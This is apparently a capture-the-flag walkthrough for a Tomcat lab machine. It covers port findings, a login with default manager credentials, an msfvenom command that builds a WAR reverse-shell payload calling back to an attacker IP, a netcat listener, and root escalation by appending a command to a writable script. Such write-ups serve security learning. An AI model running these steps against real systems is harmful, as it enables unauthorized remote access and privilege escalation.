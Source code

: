 Three ports are open 

1. 22/tcp   ssh
2. 8009/tcp ajp13
3. 8080/tcp http

Try to open the page it is tomcat and it has cves. now try logging in manager app with default credentials. <br>
`tomcat` and `s3cret` this can be found on internet. <br>
now you can upload `.war` file so make a payload using msfvenom 
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.17.86.224 LPORT=1234 -f war > shellllll.war
```
Upload this file and go to that page and then you can get connection on netcat by starting a listener
```bash
nc -lnp 1234
```
and then you are in as a non root user than you can find a id.sh file which is writable so just write this and you will get the root file 
```bash
echo "cp /root/root.txt /home/jack/root.txt" >> id.sh
```
